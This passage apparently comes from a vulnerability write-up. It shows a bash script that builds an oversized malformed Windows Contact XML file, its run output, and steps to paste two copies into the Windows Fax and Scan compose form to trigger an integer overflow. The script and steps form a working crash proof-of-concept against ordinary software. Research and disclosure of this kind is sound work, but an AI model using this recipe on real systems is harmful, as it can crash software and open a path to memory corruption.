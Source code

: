 
Back to my old slightly modified "duct tape and glue" script to build the XML file. 

```bash
dd if=1preFormmatedName.xml of=copy_paste_int_overflow

# Formatted name
echo copyPasteIntOverflow-contact >> copy_paste_int_overflow
cat 2preFamilyName.xml >> copy_paste_int_overflow

# Family name
echo familynameLast >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 3preGivenName.xml >> copy_paste_int_overflow

# Given name
echo givennameFirst >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 4preFax.xml >> copy_paste_int_overflow


# Faxnum
echo 55555Faxnum >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 5end.xml >> copy_paste_int_overflow

ls -rota copy_paste_int_overflow
du -h copy_paste_int_overflow

```

Run the script to generate the *Windows Contact* XML file and copy it to the `~/Contacts` folder. 

```bash
$ bash make_copy_paste_int_ovf.sh
1+1 records in
1+1 records out
519 bytes copied, 0.0020103 s, 258 kB/s
-rw-r--r-- 1 dev2 1222377352 May 18 03:23 copy_paste_int_overflow
1.2G    copy_paste_int_overflow
$ cp copy_paste_int_overflow ~/Contacts/copy_paste_int_overflow.contact
```

From there, load two of the same contacts into the *Fax Compose Form* from within `WFS.exe`. Select-All. Copy. 
